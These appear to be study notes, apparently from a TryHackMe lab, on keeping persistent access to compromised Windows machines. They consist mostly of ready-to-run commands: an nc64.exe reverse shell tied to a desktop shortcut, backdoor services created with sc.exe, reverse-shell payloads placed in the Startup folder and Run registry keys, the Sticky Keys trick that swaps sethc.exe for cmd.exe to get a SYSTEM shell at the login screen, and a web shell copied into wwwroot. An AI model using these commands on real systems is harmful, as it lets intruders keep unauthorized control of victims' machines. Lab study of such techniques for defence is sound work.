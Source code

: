 ```yaml
---
dg-publish: true
---
```







## ==Special Privileges==

```Shell
secedit /export /cfg config.inf

secedit /import /cfg config.inf /db config.sdb

secedit /configure /db config.sdb /cfg config.inf
```

- Creates a file for assigning privs.

## ==RID Hijacking==

```Shell
wmic useraccount get name,sid
```

## ==Shortcut Files==

```Shell
Start-Process -NoNewWindow "c:\tools\nc64.exe" "-e cmd.exe [IP]"

C:\Windows\System32\calc.exe
```

- Changes the shortcut of calculator shortcut on desktop.

## ==Creating Backdoor Services==

```Shell
sc.exe create THMservice binPath= "net user Administrator Passwd123" start= auto

sc.exe start THMservice
```

- After this, create an exe in metasploit and copy it to target.

## ==Modifying Existing Services==

```Shell
sc.exe query state=all
```

- List of available services using this command.

  

- Can be done using the same method for abusing scheduled tasks.

## ==Logon Triggered Persistence==

### ==With Startup Folders==

- Generate a reverse shell in msfvenom.
- Copy it to http.server with Python3 and wget.

```Shell
copy revshell.exe "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup\"
```

### ==Run / RunOnce==

- Force a user to execute a program on logon via the registry.
- Can use the following registry entries to specify applications to run at logon:

```Shell
HKCU\Software\Microsoft\Windows\CurrentVersion\Run
HKCU\Software\Microsoft\Windows\CurrentVersion\RunOnce
HKLM\Software\Microsoft\Windows\CurrentVersion\Run
HKLM\Software\Microsoft\Windows\CurrentVersion\RunOnce
```

- Create a revshell and move to the target.

### ==Logon Scripts==

- Create a revshell, move it to the target.
- Create an env-var in registry.
- Add the entry to point to the payload so it gets loaded.

## ==Backdooring Login Screens==

### ==Sticky Keys==

```Shell
takeown /f c:\Windows\System32\sethc.exe

icacls C:\Windows\System32\sethc.exe /grant Administrator:F

copy c:\Windows\System32\cmd.exe C:\Windows\System32\sethc.exe
```

- After this, pressing SHIFT 5 times to access a terminal with SYS priv directly from login screen.
- Same for utilman.

## ==Persisting through Existing Services==

### ==Using Web Shells==

```Shell
move shell.aspx C:\inetpub\wwwroot\
```